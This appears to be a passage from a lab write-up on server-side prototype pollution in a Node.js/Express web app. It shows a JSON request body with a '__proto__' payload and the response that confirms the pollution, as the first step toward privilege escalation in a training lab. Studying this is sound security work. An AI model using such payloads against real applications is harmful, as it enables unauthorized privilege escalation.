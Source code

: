 If the website is vulnerable, your injected property would then appear in the updated object in the response:
```bash
HTTP/1.1 200 OK
...
{
    "username":"wiener",
    "firstName":"Peter",
    "lastName":"Wiener",
    "foo":"bar"
}
```
In rare cases, the website may even use these properties to dynamically generate HTML, resulting in the injected property being rendered in your browser.

Once you identify that server-side prototype pollution is possible, you can then look for potential gadgets to use for an exploit. Any features that involve updating user data are worth investigating as these often involve merging the incoming data into an existing object that represents the user within the application. If you can add arbitrary properties to your own user, this can potentially lead to a number of vulnerabilities, including privilege escalation. 

### PRACTITIONER Lab: Privilege escalation via server-side prototype pollution
Lab's description:
This lab is built on Node.js and the Express framework. It is vulnerable to server-side prototype pollution because it unsafely merges user-controllable input into a server-side JavaScript object. This is simple to detect because any polluted properties inherited via the prototype chain are visible in an HTTP response.

To solve the lab:
- Find a prototype pollution source that you can use to add arbitrary properties to the global Object.prototype.
- Identify a gadget property that you can use to escalate your privileges.
- Access the admin panel and delete the user carlos.

Solution:
When we send the req body:
```bash
{
    "address_line_1":"Wiener2 HQ",
    "address_line_2":"One Wiener Way",
    "city":"Wienerville",
    "postcode":"BU1 1RP",
    "country":"UK",
    "sessionId":"qDR2S8JVooiqc640hOjYyO6Jsp88aMWf",
	"__proto__":{
        "ff":"tino"
    }
}
```
In the response we see `"ff":"tino"`:
```bash
{"username":"wiener","firstname":"Peter","lastname":"Wiener","address_line_1":"Wiener2 HQ","address_line_2":"One Wiener Way","city":"Wienerville","postcode":"BU1 1RP","country":"UK","isAdmin":false,"ff":"tino"}
```
